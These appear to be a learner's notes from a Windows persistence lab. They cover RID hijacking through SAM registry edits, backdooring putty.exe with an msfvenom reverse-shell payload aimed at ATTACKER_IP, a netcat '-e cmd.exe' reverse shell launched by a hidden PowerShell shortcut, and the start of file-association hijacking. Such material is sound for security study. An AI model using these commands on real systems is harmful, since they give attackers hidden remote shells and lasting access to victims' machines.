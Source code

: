 An admin will have a rid of 500 and anyother user will have **RID >= 1000**

```shell-session
C:\> wmic useraccount get name,sid

Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
Guest               S-1-5-21-1966530601-3185510712-10604624-501
thmuser1            S-1-5-21-1966530601-3185510712-10604624-1008
thmuser2            S-1-5-21-1966530601-3185510712-10604624-1009
thmuser3            S-1-5-21-1966530601-3185510712-10604624-1010
```

Now u can open regedit 
```shell-session
PsExec64.exe -i -s regedit
```

After that go to `HKLM\SAM\SAM\Domains\Account\Users\`

Then you have to find the user usually it's in the form of hex , So over here i want to change thmuser3 whose id is 1010 will be  0x3F2

# Backdooring files 

First we will be backdoor an already existed exe file . 

First find a shortcut for any exe file on the machine then go in properties tab then download that executable file on your machine in this case putty.exe then embeed your code in it 

```shell-session
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```


Or you can create a powershell script 

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Then in the shortcut you can add something like this 

```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

![[Pasted image 20230516231118.png]]


# Hijacking File associations 

In this we as a attacker change some registries and make os to run a system level command whenever we open a file of a specific type for example .txt or jpg
